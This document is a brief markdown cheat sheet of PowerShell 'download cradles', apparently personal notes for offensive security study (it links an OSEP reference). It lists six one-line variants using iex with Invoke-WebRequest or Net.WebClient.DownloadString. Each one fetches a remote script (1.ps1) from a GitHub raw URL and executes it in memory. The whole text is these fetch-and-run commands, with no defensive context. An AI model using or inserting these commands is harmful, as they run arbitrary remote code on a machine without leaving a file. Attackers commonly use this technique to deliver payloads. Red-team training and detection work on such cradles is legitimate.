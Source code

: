 # Run Script cradles

iex (iwr "https://raw.githubusercontent.com/conma293/mvp/main/1.ps1")

IEX (Invoke-WebRequest -Uri "https://raw.githubusercontent.com/conma293/mvp/main/1.ps1").Content

iex ((Invoke-WebRequest -Uri "https://raw.githubusercontent.com/conma293/mvp/main/1.ps1").Content)

IEX((New-Object System.Net.WebClient).DownloadString('https://raw.githubusercontent.com/conma293/mvp/main/1.ps1'))

iex ((New-Object System.Net.webclient).DownloadString('https://raw.githubusercontent.com/conma293/mvp/main/1.ps1')).content

IEX (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/conma293/mvp/main/1.ps1')

#Download Cradle and general good refs
https://github.com/In3x0rabl3/OSEP/blob/main/osep_reference.md#download-cradle
